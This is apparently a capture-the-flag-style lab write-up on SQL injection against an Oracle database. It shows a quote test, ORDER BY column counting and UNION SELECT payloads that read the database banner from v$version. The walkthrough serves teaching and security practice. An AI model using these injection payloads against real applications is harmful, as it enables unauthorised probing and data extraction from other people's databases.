

## SQL Injection Attack - Querying the Database Type and Version on Oracle


### Objective

Determine the database type and version using SQL injection.


A single quote was inserted into the vulnerable parameter:

using : *'* 



the error shown so the injection is possible.

To Determine the Number of Columns


*' ORDER BY 1-- 
' ORDER BY 2--
' ORDER BY 3--*

so the error is on the third payload and our column number is 2

to check if those two columns if retern 

```'+UNION+SELECT+'abc','def'+FROM+dual--```

it gives abc and def so now we can use 

```
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```